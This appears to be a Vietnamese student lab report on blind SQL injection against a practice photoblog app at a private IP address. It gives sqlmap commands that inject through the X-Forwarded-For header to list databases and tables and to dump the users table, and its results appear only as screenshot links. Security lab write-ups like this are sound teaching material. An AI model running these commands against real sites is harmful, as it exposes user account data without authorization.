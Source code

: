 # Report lab 2 SQL Injection

Tương tự lab trước, thử nhập dấu ' vào trước 1 trên id

![image](https://user-images.githubusercontent.com/61901474/163430883-02d0ab17-0a11-4b6a-9ecc-70f5e6d2cd54.png)

-> không thấy hiện thông báo lỗi nào -> Blind SQL injection

-> Sử dụng sqlmap để tấn công

- Kiểm tra database có trong server
```
sqlmap -u "http://192.168.67.133/cat.php?id=1" --headers="X-forwarded-for:1*" --dbs
```
![image](https://user-images.githubusercontent.com/61901474/163430027-95784f6b-1401-4a5b-afbd-8199a745f132.png)


![image](https://user-images.githubusercontent.com/61901474/163430038-c0f5349c-6a2c-4372-83b9-d444385d051d.png)

- Kiểm tra các bảng của database photoblog
```
sqlmap -u "http://192.168.67.133/cat.php?id=1" --headers="X-forwarded-for:1*" --tables -D photoblog --smart --batch
```
![image](https://user-images.githubusercontent.com/61901474/163430062-2220d0dc-8ec2-43e9-841e-e2e5e3e92213.png)

![image](https://user-images.githubusercontent.com/61901474/163430078-6f6da365-d127-4ac3-9ddb-ce3186b8a72c.png)

- Xem dữ liệu của bảng users
```
sqlmap -u "http://192.168.67.133/cat.php?id=1" --headers="X-forwarded-for:1*" --dump -T users -D photoblog --smart --batch
```
![image](https://user-images.githubusercontent.com/61901474/163430093-0c7ad3ee-c878-42da-81a1-e87ea48e72cd.png)

![image](https://user-images.githubusercontent.com/61901474/163430101-0863ffdf-2080-46f0-872a-b8ee64b51b1a.png)

